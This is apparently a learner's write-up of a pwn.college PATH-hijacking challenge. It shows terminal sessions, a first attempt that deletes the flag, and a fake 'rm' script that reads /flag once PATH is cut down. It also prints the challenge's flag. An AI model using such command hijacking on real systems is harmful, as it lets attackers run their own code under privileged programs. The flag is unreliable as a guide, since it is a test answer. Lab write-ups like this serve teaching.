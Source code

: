 
## My solve 

**Flag:** `pwn.college{Q8PgkP4mkPOdw_9BUom9vkJft06.QX3cjM1wSO3gjNzEzW}` 

To solve this challenge, I followed the steps as listed below: 
- I first used `nano /challenge/run` command to read the `/challenge/run` script to understand what it does. The script told me that it invoked the `rm` command to delete the flag. 
- After reading the script, I simply changed the `PATH` variable and added on the `/home/hacker` directory and then invoked the `/challenge/run` program. Here I forgot that we were invoking `rm` and not `win` so I ended up erasing the flag. 
```bash
hacker@path~hijacking-commands:~$ nano /challenge/run
hacker@path~hijacking-commands:~$ echo $PATH
/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
hacker@path~hijacking-commands:~$ PATH="/run/challenge/bin:/run/dojo/bin:/root/.cargo/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/home/hacker"
hacker@path~hijacking-commands:~$ /challenge/run
Trying to remove /flag...
Found 'rm' command at /run/dojo/bin/rm. Executing!
Uh oh, looks like I successfully removed the flag! That means you did not 
properly set PATH to keep me from finding 'rm'. Since the flag is gone, you 
will need to re-launch the challenge from the module page! Better luck next 
time.
hacker@path~hijacking-commands:~$ 
```
- I analyzed the stderr output and realized that I did not remove the `/run/dojo/bin` directory and hence that got invoked. 
- Restarting the challenge, I had a brainwave of **hijacking** the command(I would have had this brainwave earlier had I read the challenge name with some focus). 
- I realized that I can create a script with the name of `rm` in the `/home/hacker` directory and then change the `PATH` variable to have only the `/home/hacker` directory.
- Following this plan, I executed the commands as below: 
```bash 
hacker@path~hijacking-commands:~$ touch rm
hacker@path~hijacking-commands:~$ nano rm
  GNU nano 8.4                                                      rm                                                                 
#!/bin/bash

/run/dojo/bin/cat /flag





                                                           [ Read 3 lines ]
^G Help         ^O Write Out    ^F Where Is     ^K Cut          ^T Execute      ^C Location     M-U Undo        M-A Set Mark
^X Exit         ^R Read File    ^\ Replace      ^U Paste        ^J Justify      ^/ Go To Line   M-E Redo        M-6 Copy
```
- In this above script, I called `cat` command using the absolute path as I was removing all other directories.
